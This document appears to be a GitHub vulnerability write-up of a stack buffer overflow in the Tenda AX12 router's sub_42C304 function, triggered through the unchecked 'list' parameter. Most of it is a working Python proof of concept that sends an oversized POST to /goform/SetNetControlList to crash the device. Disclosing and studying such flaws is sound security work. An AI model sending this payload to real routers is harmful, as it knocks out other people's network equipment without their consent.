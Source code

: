   # Tenda router sub_42C304 function stack overflow vulnerability

> vendor:Tenda
>
> product:AX12
>
> version:v1.0 v22.03.01.16
>
> type:Stack Overflow

## Vulnerability Description

Tenda AX12 v1.0 v22.03.01.16 were discovered to contain a stack overflow via the list parameter in the sub_42C304 function.

## Vulnerability Details

In the function, V3 obtains the variable named "list" in the web request and directly passes it to sscanf without processing, passing the dangerous function, which may cause a stack buffer overflow. Therefore, an attacker can use carefully designed overflow data to modify the length of the list variable and then perform a denial of service attack.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/e9a34fa5-aedf-445c-a97e-546e6ee9c013)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/6cab90cf-3367-4cc7-863c-6b0b88bc7443)


## POC

    import socket
    import os
    from pwn import *

    li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
    ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    ip = '192.168.244.130'
    port = 80

    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    li('[+] connecting')
    r.connect((ip, port))
    li('[+] connect finish')

    rn = b'\r\n'

    p1 = b'A' * 0x500

    p2 = b'list=' + p1

    p3 = b"POST /goform/SetNetControlList" + b" HTTP/1.1" + rn
    p3 += b"Host: 192.168.244.130" + rn
    p3 += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36" + rn
    p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
    p3 += b"Accept-Language: gzip, deflate" + rn
    p3 += b"Accept-Encoding: zh-CN,zh;q=0.9" + rn
    p3 += b"Cookie: password=cjq1qw" + rn
    p3 += b"Connection: close" + rn
    p3 += b"Upgrade-Insecure-Requests: 1" + rn
    p3 += (b"Content-Length: %d" % len(p2)) +rn
    p3 += b'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'+rn
    p3 += rn
    p3 += p2

    li('[+] sending payload')
    r.send(p3)

    response = r.recv(4096)
    response = response.decode()
    li(response)
